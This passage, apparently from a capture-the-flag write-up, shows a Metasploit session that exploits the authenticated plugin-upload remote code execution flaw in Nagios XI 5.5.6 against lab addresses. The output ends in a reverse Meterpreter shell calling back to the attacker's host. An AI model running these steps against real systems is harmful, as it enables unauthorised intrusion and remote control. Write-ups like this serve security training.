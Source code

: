 ~~~
Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost tun0
lhost => 10.9.2.86
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lport 4444
lport => 4444
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set rhosts 10.10.47.218
rhosts => 10.10.47.218
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
~~~

Now let's run the exploit and see what happens:

~~~
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > exploit

[*] Started reverse TCP handler on 10.9.2.86:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.5.6
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 10.10.47.218
[*] Meterpreter session 1 opened (10.9.2.86:4444 -> 10.10.47.218:37340 ) at 2021-10-23 07:39:30 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.
~~~

### Shell

The exploit works and now we can spawn a shell and obtain the flags. The first thing I did was spawning a TTY shell using a python one-liner:
